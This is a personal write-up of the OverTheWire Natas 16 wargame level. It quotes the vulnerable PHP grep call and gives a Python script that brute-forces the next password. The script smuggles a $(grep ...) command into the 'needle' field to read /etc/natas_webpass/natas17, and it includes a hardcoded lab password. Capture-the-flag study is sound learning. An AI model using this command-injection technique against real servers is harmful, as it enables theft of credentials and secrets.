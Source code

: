 
2024-07-19 21:01

Source: #overthewire #natas 

Tags: [[regex]]
## Natas 16

 ```
passthru("grep -i \"$key\" dictionary.txt");  # snippet form website source code
```
- the key argument is passed in double quotes so it is isolated as its own argument we can't get around that
- we can't directly use `$(whoami)` to run commands because the command's output is used as a input for the grep command which is searching in the dictionary 

if we only send in `B` as input because `B` does exist in the password that command in the PHP code is filled in with the actual password an argument and it obviously can't find that in dictionary text so we don't see any output here

```
import requests
import re
import string

characters = string.ascii_letters+"0123456789"

username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

url = 'http://natas16.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()
seen = list()

while(len(seen) < 32):
    for ch in characters:
        print("".join(seen)+ch)
        
        response = sessions.post(url,data = {"needle": "anythings$(grep ^" + "".join(seen) + ch + "  /etc/natas_webpass/natas17)"},auth = (username,password))
 
#grep ^ - ret true if the current character is a part of the password string at the cuurent position

        content = response.text
        returned = re.findall('<pre>\n(.*)\n</pre>',content)

        if not returned:
            seen.append(ch)
            break
            
#returned will be empty when we find the character because the server will try to grep the password string from the dictionary, which does not exist that is why we append the character in seen  
```
### References

https://www.youtube.com/watch?v=6XlDsn-R5oQ